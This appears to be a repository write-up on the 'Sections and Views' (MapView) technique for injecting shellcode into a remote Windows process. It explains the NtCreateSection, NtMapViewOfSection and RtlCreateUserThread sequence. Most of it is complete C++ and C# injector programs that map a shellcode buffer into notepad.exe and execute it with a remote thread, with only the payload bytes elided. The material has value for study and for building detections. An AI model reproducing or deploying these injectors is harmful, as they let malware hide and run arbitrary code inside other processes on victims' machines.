





# Sections and Views Injection

This technique has a different way to inject the code on a remote process. MapView Code Injection uses typicall internal operation between processes. 

It is common that one process create a new section and shares the data with another process. Every memory section corresponds to one or more views. A view of a section referes to the specific part of the sectio htat is visible and accesible to a process.

So we can map a section to the remote process and create a view in order to share the shellcode to the remote process.

* `NtCreateSection`: Create a new page-file-backed section.
* `NtMapViewOfSection`: Map the section view on the local process.
* `memcpy`: Copy the payload to the section.
* `NtMapViewOfSection`: Map the same section view in the target process.
* `RtlCreateUserThread`: Execute the payload on the remote process.


# Analysis

First we need to create a Section handle on our local process with `PAGE_EXECUTE_READWRITE` rights.


```cpp
status = pNtCreateSection(&hSection, SECTION_ALL_ACCESS, NULL, (PLARGE_INTEGER) &payload_len, PAGE_EXECUTE_READWRITE, SEC_COMMIT, NULL);
```

As we can see the new handle `0xAC` was successfuly created with `FULL_CONTROL` cause the section access was defined with `SECTION_ALL_ACCESS`. We only need `SECTION_MAP_READ` `SECTION_MAP_WRITE` and `SECTION_MAP_EXECUTE` but in that example a full control was set.



Once created the section we need to map to a new local view. A `RW` rights are needed in order to copy the payload to the section.

```cpp
status = pNtMapViewOfSection(hSection, GetCurrentProcess(), &pLocalView, NULL, NULL, NULL, (SIZE_T *)&payload_len, ViewUnmap, NULL, PAGE_READWRITE);
```

When the section is already mapped, we can see the memory space on the local process.



Now the payload can be copied to the local view.



In order to execute the payload on a remote process we need to create a remote view of the same section. To do that we need the handler of the target process.

```cpp
pid = FindProcess("notepad.exe");
hProc = OpenProcess( PROCESS_CREATE_THREAD | PROCESS_QUERY_INFORMATION | PROCESS_VM_OPERATION | PROCESS_VM_READ | PROCESS_VM_WRITE, FALSE, (DWORD) pid);
status = pNtMapViewOfSection(hSection, hProc, &pRemoteView, NULL, NULL, NULL, (SIZE_T *)&payload_len, ViewUnmap, NULL, PAGE_EXECUTE_READ);
```

As we can see the section was successfuly mapped to the remote process and the payload was delivered on memory.



Finally we can use `RtlCreateUserThread` to execute the remote view.

```cpp
pRtlCreateUserThread(hProc, NULL, FALSE, 0, 0, 0, pRemoteView, 0, &hThread, &cid);
if(hThread != NULL){
    WaitForSingleObject(hThread, 500);
    CloseHandle(hThread);
}
```



# C++

Example of MapView injection:

```cpp
#include <Windows.h>
#include <stdio.h>
#include <tlhelp32.h>

typedef struct _UNICODE_STRING {
  USHORT Length;
  USHORT MaximumLength;
  PWSTR  Buffer;
} UNICODE_STRING, *PUNICODE_STRING;

typedef struct _CLIENT_ID {
	HANDLE UniqueProcess;
	HANDLE UniqueThread;
} CLIENT_ID, *PCLIENT_ID;

typedef struct _OBJECT_ATTRIBUTES {
  ULONG Length;
  HANDLE RootDirectory;
  PUNICODE_STRING ObjectName;
  ULONG Attributes;
  PVOID SecurityDescriptor;
  PVOID SecurityQualityOfService;
} OBJECT_ATTRIBUTES, *POBJECT_ATTRIBUTES;

typedef enum _SECTION_INHERIT {
	ViewShare = 1,
	ViewUnmap = 2
} SECTION_INHERIT, *PSECTION_INHERIT;	

typedef FARPROC (WINAPI * t_RtlCreateUserThread)(
    HANDLE ProcessHandle,
    PSECURITY_DESCRIPTOR SecurityDescriptor,
    BOOLEAN CreateSuspended,
    ULONG StackZeroBits,
    PULONG StackReserved,
    PULONG StackCommit,
    PVOID StartAddress,
    PVOID StartParameter,
    PHANDLE ThreadHandle,
    PCLIENT_ID ClientId
);

typedef NTSTATUS (NTAPI * t_NtCreateSection)(
    PHANDLE SectionHandle,
    ACCESS_MASK DesiredAccess,
    POBJECT_ATTRIBUTES ObjectAttributes,
    PLARGE_INTEGER MaximumSize,
    ULONG SectionPageProtection,
    ULONG AllocationAttributes,
    HANDLE FileHandle
);

typedef NTSTATUS (NTAPI * t_NtMapViewOfSection)(
	HANDLE SectionHandle,
	HANDLE ProcessHandle,
	PVOID * BaseAddress,
	ULONG_PTR ZeroBits,
	SIZE_T CommitSize,
	PLARGE_INTEGER SectionOffset,
	PSIZE_T ViewSize,
	DWORD InheritDisposition,
	ULONG AllocationType,
	ULONG Win32Protect
);


int FindProcess(const char *procname) {

        HANDLE hProcSnap;
        PROCESSENTRY32 pe32;
        int pid = 0;
                
        hProcSnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
        if (INVALID_HANDLE_VALUE == hProcSnap) return 0;
                
        pe32.dwSize = sizeof(PROCESSENTRY32); 
                
        if (!Process32First(hProcSnap, &pe32)) {
                CloseHandle(hProcSnap);
                return 0;
        }
                
        while (Process32Next(hProcSnap, &pe32)) {
                if (lstrcmpiA(procname, pe32.szExeFile) == 0) {
                        pid = pe32.th32ProcessID;
                        printf("[+] Process found -> %s : %d\n", procname, pid);
                        break;
                }
        }
                
        CloseHandle(hProcSnap);
                
        return pid;
}


int main(void) {
    
    int pid = 0;
    HANDLE hProc = NULL;
    HANDLE hThread = NULL;
    HANDLE hSection = NULL;
    CLIENT_ID cid;
    PVOID pLocalView = NULL, pRemoteView = NULL;
    NTSTATUS status;
    unsigned char payload[] = {0xfc, 0x48, 0x83,...};
    SIZE_T payload_len = sizeof(payload);
    pid = FindProcess("notepad.exe");
    if(pid){
        hProc = OpenProcess( PROCESS_CREATE_THREAD | PROCESS_QUERY_INFORMATION | PROCESS_VM_OPERATION | PROCESS_VM_READ | PROCESS_VM_WRITE, FALSE, (DWORD) pid);
        if(hProc != NULL){
            // Create a Section
            t_NtCreateSection pNtCreateSection = (t_NtCreateSection) GetProcAddress(GetModuleHandle("NTDLL.DLL"), "NtCreateSection");
            status = pNtCreateSection(&hSection, SECTION_ALL_ACCESS, NULL, (PLARGE_INTEGER) &payload_len, PAGE_EXECUTE_READWRITE, SEC_COMMIT, NULL);
            printf("pNtCreateSection -> status=0x%x\n", status);
            printf("\t hSection=0x%p\n", hSection);
            getchar();
            
            // Create a local view to the new section
            t_NtMapViewOfSection pNtMapViewOfSection = (t_NtMapViewOfSection) GetProcAddress(GetModuleHandle("NTDLL.DLL"), "NtMapViewOfSection");
            status = pNtMapViewOfSection(hSection, GetCurrentProcess(), &pLocalView, NULL, NULL, NULL, (SIZE_T *)&payload_len, ViewUnmap, NULL, PAGE_READWRITE);
            printf("pNtMapViewOfSection -> status=0x%x\n", status);
            printf("\t pLocalView=0x%p\n", pLocalView);
            getchar();

            // Copy the payload to the section
            memcpy(pLocalView, payload, payload_len);
            printf("Payload copied\n");
            getchar();

            // Create a remote view to the new section
            status = pNtMapViewOfSection(hSection, hProc, &pRemoteView, NULL, NULL, NULL, (SIZE_T *)&payload_len, ViewUnmap, NULL, PAGE_EXECUTE_READ);
            printf("pNtMapViewOfSection -> status=0x%x\n", status);
            printf("\t pRemoteView=0x%p\n", pRemoteView);
            getchar();


            // Execute the remote view
            t_RtlCreateUserThread pRtlCreateUserThread = (t_RtlCreateUserThread) GetProcAddress(GetModuleHandle("NTDLL.DLL"), "RtlCreateUserThread");
            pRtlCreateUserThread(hProc, NULL, FALSE, 0, 0, 0, pRemoteView, 0, &hThread, &cid);
            if(hThread != NULL){
                WaitForSingleObject(hThread, 500);
                CloseHandle(hThread);
            }
            
        }
        CloseHandle(hProc);
    }else{
        printf("[-] Notepad.exe not found!\n");
    }
    
    
    return 0;
}
```


# Csharp .NET

```csharp
using System;
using System.Collections.Generic;
using System.Linq;
using System.Net.NetworkInformation;
using System.Runtime.InteropServices;
using System.Text;
using System.Threading.Tasks;
using System.Diagnostics;

namespace Sections_injection
{
    internal class Program
    {
        
        // DesiredAccess
        public const int SECTION_QUERY = 1;
        public const int SECTION_MAP_WRITE = 2;
        public const int SECTION_MAP_READ = 4;
        public const int SECTION_MAP_EXECUTE = 8;
        public const int SECTION_EXTEND_SIZE = 16;
        public const int SECTION_MAP_EXECUTE_EXPLICIT = 32;

        public const uint SECTION_ALL_ACCESS = SECTION_QUERY | SECTION_MAP_WRITE | SECTION_MAP_READ | SECTION_MAP_EXECUTE | SECTION_EXTEND_SIZE;

        // AllocationAttributes
        public const uint SEC_COMMIT = 0x8000000;
        public const uint SEC_IMAGE = 0x1000000;
        public const uint SEC_IMAGE_NO_EXECUTE = 0x11000000;
        public const uint SEC_LARGE_PAGES = 0x80000000;
        public const uint SEC_NOCACHE = 0x10000000;
        public const uint SEC_RESERVE = 0x4000000;
        public const uint SEC_WRITECOMBINE = 0x40000000;

        [Flags]
        public enum PAGE_PROTECTION_FLAGS : uint
        {
            PAGE_NOACCESS = 0x00000001,
            PAGE_READONLY = 0x00000002,
            PAGE_READWRITE = 0x00000004,
            PAGE_WRITECOPY = 0x00000008,
            PAGE_EXECUTE = 0x00000010,
            PAGE_EXECUTE_READ = 0x00000020,
            PAGE_EXECUTE_READWRITE = 0x00000040,
            PAGE_EXECUTE_WRITECOPY = 0x00000080,
            PAGE_GUARD = 0x00000100,
            PAGE_NOCACHE = 0x00000200,
            PAGE_WRITECOMBINE = 0x00000400,
            PAGE_GRAPHICS_NOACCESS = 0x00000800,
            PAGE_GRAPHICS_READONLY = 0x00001000,
            PAGE_GRAPHICS_READWRITE = 0x00002000,
            PAGE_GRAPHICS_EXECUTE = 0x00004000,
            PAGE_GRAPHICS_EXECUTE_READ = 0x00008000,
            PAGE_GRAPHICS_EXECUTE_READWRITE = 0x00010000,
            PAGE_GRAPHICS_COHERENT = 0x00020000,
            PAGE_GRAPHICS_NOCACHE = 0x00040000,
            PAGE_ENCLAVE_THREAD_CONTROL = 0x80000000,
            PAGE_REVERT_TO_FILE_MAP = 0x80000000,
            PAGE_TARGETS_NO_UPDATE = 0x40000000,
            PAGE_TARGETS_INVALID = 0x40000000,
            PAGE_ENCLAVE_UNVALIDATED = 0x20000000,
            PAGE_ENCLAVE_MASK = 0x10000000,
            PAGE_ENCLAVE_DECOMMIT = 0x10000000,
            PAGE_ENCLAVE_SS_FIRST = 0x10000001,
            PAGE_ENCLAVE_SS_REST = 0x10000002,
            SEC_PARTITION_OWNER_HANDLE = 0x00040000,
            SEC_64K_PAGES = 0x00080000,
            SEC_FILE = 0x00800000,
            SEC_IMAGE = 0x01000000,
            SEC_PROTECTED_IMAGE = 0x02000000,
            SEC_RESERVE = 0x04000000,
            SEC_COMMIT = 0x08000000,
            SEC_NOCACHE = 0x10000000,
            SEC_WRITECOMBINE = 0x40000000,
            SEC_LARGE_PAGES = 0x80000000,
            SEC_IMAGE_NO_EXECUTE = 0x11000000,
        }
        [Flags]
        public enum PROCESS_ACCESS_RIGHTS : uint
        {
            PROCESS_TERMINATE = 0x00000001,
            PROCESS_CREATE_THREAD = 0x00000002,
            PROCESS_SET_SESSIONID = 0x00000004,
            PROCESS_VM_OPERATION = 0x00000008,
            PROCESS_VM_READ = 0x00000010,
            PROCESS_VM_WRITE = 0x00000020,
            PROCESS_DUP_HANDLE = 0x00000040,
            PROCESS_CREATE_PROCESS = 0x00000080,
            PROCESS_SET_QUOTA = 0x00000100,
            PROCESS_SET_INFORMATION = 0x00000200,
            PROCESS_QUERY_INFORMATION = 0x00000400,
            PROCESS_SUSPEND_RESUME = 0x00000800,
            PROCESS_QUERY_LIMITED_INFORMATION = 0x00001000,
            PROCESS_SET_LIMITED_INFORMATION = 0x00002000,
            PROCESS_ALL_ACCESS = 0x001FFFFF,
            PROCESS_DELETE = 0x00010000,
            PROCESS_READ_CONTROL = 0x00020000,
            PROCESS_WRITE_DAC = 0x00040000,
            PROCESS_WRITE_OWNER = 0x00080000,
            PROCESS_SYNCHRONIZE = 0x00100000,
            PROCESS_STANDARD_RIGHTS_REQUIRED = 0x000F0000,
        }

        public enum SECTION_INHERIT
        {
            ViewShare = 1,
            ViewUnmap = 2,
        }

        [DllImport("KERNEL32.dll", ExactSpelling = true, SetLastError = true)]
        [DefaultDllImportSearchPaths(DllImportSearchPath.System32)]
        public static extern IntPtr OpenProcess(PROCESS_ACCESS_RIGHTS dwDesiredAccess, int bInheritHandle, int dwProcessId);

        [DllImport("ntdll.dll", ExactSpelling = true)]
        [DefaultDllImportSearchPaths(DllImportSearchPath.System32)]
        public static extern UInt32 NtCreateSection(ref IntPtr SectionHandle, uint DesiredAccess, IntPtr ObjectAttributes, ref long MaximumSize, uint SectionPageProtection, uint AllocationAttributes, IntPtr FileHandle);

        [DllImport("ntdll.dll", ExactSpelling = true)]
        [DefaultDllImportSearchPaths(DllImportSearchPath.System32)]
        public static extern UInt32 NtMapViewOfSection(IntPtr SectionHandle, IntPtr ProcessHandle, ref IntPtr BaseAddress, uint ZeroBits, uint CommitSize, uint SectionOffset, ref long ViewSize, SECTION_INHERIT InheritDisposition, uint AllocationType, uint Win32Protect);

        [DllImport("kernel32.dll", SetLastError = true)]
        static extern IntPtr GetCurrentProcess();

        [DllImport("kernel32.dll")]
        static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

        [DllImport("ntdll.dll", ExactSpelling = true)]
        [DefaultDllImportSearchPaths(DllImportSearchPath.System32)]
        public static extern UInt32 NtUnmapViewOfSection(IntPtr ProcessHandle, IntPtr BaseAddress);

        [DllImport("ntdll.dll", ExactSpelling = true)]
        [DefaultDllImportSearchPaths(DllImportSearchPath.System32)]
        public static extern UInt32 NtClose(IntPtr Handle);

        static int Main(string[] args)
        {

            byte[] buf = new byte[878] {0xfc,0x48,0x83,....};
            
            IntPtr hSection = IntPtr.Zero;
            IntPtr pLocalView = IntPtr.Zero;
            IntPtr pRemoteView = IntPtr.Zero;
            UInt32 ntstatus;
            long buff_size = buf.Length;

            ntstatus = NtCreateSection(ref hSection, SECTION_ALL_ACCESS, IntPtr.Zero, ref buff_size, (uint)PAGE_PROTECTION_FLAGS.PAGE_EXECUTE_READWRITE, SEC_COMMIT, IntPtr.Zero);
            Console.WriteLine("\thSection -> " + $"0x{hSection:X8}");
            Console.WriteLine("NtCreateSection -> NTSTATUS: " + $"0x{ntstatus:X8}");
            if (ntstatus != 0)
            {
                Console.WriteLine("[-] Error creating the section");
                return -1;
            }

            ntstatus = NtMapViewOfSection(hSection, GetCurrentProcess(), ref pLocalView, 0, 0, 0, ref buff_size, SECTION_INHERIT.ViewUnmap, 0, (uint)PAGE_PROTECTION_FLAGS.PAGE_READWRITE);
            Console.WriteLine("\tpLocalView -> " + $"0x{pLocalView:X8}");
            Console.WriteLine("NtMapViewOfSection -> NTSTATUS: " + $"0x{ntstatus:X8}");
            if (ntstatus != 0)
            {
                Console.WriteLine("[-] Error creating the section");
                return -1;
            }

            Marshal.Copy(buf, 0, pLocalView, buf.Length);

            Process[] processes = Process.GetProcessesByName("notepad");
            if (processes.Length <= 0)
            {
                Console.WriteLine("[-] No process found");
                return -1;
            }
            Console.WriteLine("Target Process -> pid=" + processes[0].Id);
            IntPtr hProcess = OpenProcess(PROCESS_ACCESS_RIGHTS.PROCESS_CREATE_THREAD | PROCESS_ACCESS_RIGHTS.PROCESS_QUERY_INFORMATION | PROCESS_ACCESS_RIGHTS.PROCESS_VM_OPERATION | PROCESS_ACCESS_RIGHTS.PROCESS_VM_READ | PROCESS_ACCESS_RIGHTS.PROCESS_VM_WRITE, 0, processes[0].Id);

            ntstatus = NtMapViewOfSection(hSection, hProcess, ref pRemoteView, 0, 0, 0, ref buff_size, SECTION_INHERIT.ViewUnmap, 0, (uint)PAGE_PROTECTION_FLAGS.PAGE_EXECUTE_READ);
            Console.WriteLine("\tpRemoteView -> " + $"0x{pRemoteView:X8}");
            Console.WriteLine("NtMapViewOfSection -> NTSTATUS: " + $"0x{ntstatus:X8}");
            if (ntstatus != 0)
            {
                Console.WriteLine("[-] Error creating the section");
                return -1;
            }
            CreateRemoteThread(hProcess, IntPtr.Zero, 0, pRemoteView, IntPtr.Zero, 0, IntPtr.Zero);

            ntstatus = NtUnmapViewOfSection(GetCurrentProcess(), pLocalView);

            Console.WriteLine("NtUnmapViewOfSection -> NTSTATUS: " + $"0x{ntstatus:X8}");
            if (ntstatus != 0)
            {
                Console.WriteLine("[-] Error creating the section");
                return -1;
            }

            ntstatus = NtClose(hSection);
            Console.WriteLine("NtClose -> NTSTATUS: " + $"0x{ntstatus:X8}");
            if (ntstatus != 0)
            {
                Console.WriteLine("[-] Error creating the section");
                return -1;
            }

            return 0;
        }
    }
}
```